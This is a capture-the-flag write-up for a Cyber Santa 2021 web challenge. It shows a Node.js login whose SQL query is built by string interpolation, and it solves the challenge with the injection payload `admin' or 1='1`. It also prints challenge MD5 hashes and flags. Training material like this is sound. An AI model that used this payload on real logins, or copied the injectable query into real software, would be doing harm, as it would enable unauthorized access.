

# CTF Name – Cyber Santa 2021

- **Category:** Web Day 2
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a website that has a simple login page, as well as its source code


In the source code there is a `database.sql` file that has some info about the tables. We can see that the flag is in the table `toylist` and we have a list of users (manager, admin) along with their hashed password under the `users` table.

```
INSERT INTO `toylist` (`id`, `toy`, `receiver`, `location`, `approved`) VALUES
(1,  'She-Ra, Princess of Power', 'Elaina Love', 'Houston', 1),
(2, 'Bayblade Burst Evolution', 'Jarrett Pace', 'Dallas', 1),
(3, 'Barbie Dreamhouse Playset', 'Kristin Vang', 'Austin', 1),
(4, 'StarWars Action Figures', 'Jaslyn Huerta', 'Amarillo', 1),
(5, 'Hot Wheels: Volkswagen Beach Bomb', 'Eric Cameron', 'San Antonio', 1),
(6, 'Polly Pocket dolls', 'Aracely Monroe', 'El Paso', 1),
(7, 'HTB{f4k3_fl4g_f0r_t3st1ng}', 'HTBer', 'HTBland', 0);
-- --------------------------------------------------------

--
-- Table structure for table `users`
--

CREATE TABLE `users` (
  `id` int NOT NULL,
  `username` varchar(256) NOT NULL,
  `password` varchar(256) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

--
-- Dumping data for table `users`
--

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'manager', '69bbdcd1f9feab7842f3a1c152062407'),
(2, 'admin', '592c094d5574fb32fe9d4cce27240588');
```

From the login function in the `router/index.js` page we can see that the password is MD5 hashed. In order to reach the flag we can see that we need to be `admin` user and query `/api/toylist`.

```
router.post('/api/login', async (req, res) => {
	const { username, password } = req.body;
	if (username && password) {
		passhash = crypto.createHash('md5').update(password).digest('hex');
		return db.loginUser(username, passhash)
			.then(user => {
				if (!user.length) return res.status(403).send(response('Invalid username or password!'));
				JWTHelper.sign({ username: user[0].username })
					.then(token => {
						res.cookie('session', token, { maxAge: 43200000 });
						res.send(response('User authenticated successfully!'));
					})
			})
			.catch(() => res.status(403).send(response('Invalid username or password!')));
	}
	return res.status(500).send(response('Missing parameters!'));
});

router.get('/api/toylist', AuthMiddleware, async (req, res) => {
	return db.getUser(req.data.username)
		.then(user => {
			approved = 1;
			if (user[0].username == 'admin') approved = 0;
			return db.listToys(approved)
				.then(toyInfo => {
					return res.json(toyInfo);
				})
				.catch(() => res.status(500).send(response('Something went wrong!')));
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

Popping `admin`'s password into an online MD5 password cracker yielded the password `tryharder`, which as expected, failed to log me in.

## Solution

In the `database.js` during login validation, we can see that it fails to prepare statements properly but instead injects the user input directly into the SQL statement making this vulnerable to SQL injection.

```
async loginUser(user, pass) {
    return new Promise(async (resolve, reject) => {
      let stmt = `SELECT username FROM users WHERE username = '${user}' and password = '${pass}'`;
      console.log(stmt);
      this.connection.query(stmt, (err, result) => {
        console.log(err, result);
        if (err) reject(err);
        try {
          resolve(JSON.parse(JSON.stringify(result)));
        } catch (e) {
          reject(e);
        }
      });
    });
  }

```

Using a payload of

```
admin' or 1='1
```

and any password successfully logs us in and displays the flag.



```
HTB{1nj3cti0n_1s_in3v1t4bl3}
```

## Thoughts

- Simple SQL injection
- A very simple confidence booster for web challenges hahhaha
